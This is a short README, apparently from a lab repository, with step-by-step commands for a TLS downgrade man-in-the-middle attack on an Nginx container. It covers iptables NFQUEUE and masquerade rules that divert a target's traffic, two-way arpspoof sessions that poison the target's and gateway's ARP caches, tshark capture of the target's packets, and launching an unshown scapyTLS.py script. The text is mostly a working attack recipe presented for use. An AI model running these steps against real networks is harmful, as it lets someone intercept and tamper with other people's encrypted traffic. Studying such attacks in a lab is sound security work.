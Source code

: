 # TLS Downgrade Attack

Obtain IP Nginx webserver docker container

```console
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' nginx-server
```

Install apt packages

```console
apt install tshark 
```

Install pip packages

```console
pip3 install -r req.txt
```

Add iptables rules => /etc/iptables/rules.v4

```console
-A FORWARD -s $TARGET_IP/32 -j NFQUEUE --queue-num 2
-A POSTROUTING -s $TARGET_IP/32 -j MASQUERADE
```

Launch arpspoof sessions

```console
arpspoof -i $IFACE -t $TARGET_IP $GATEWAY_IP
arpspoof -i $IFACE -t $GATEWAY_IP $TARGET_IP 
```

Capture packets

```console
tshark -i $IFACE -w capture.pcapng -f "host $TARGET_IP"
```

Read captured packets

```console
tshark -r capture.pcapng
```

Run application

```console
python3 scapyTLS.py
```

Use sudo privileges if required!
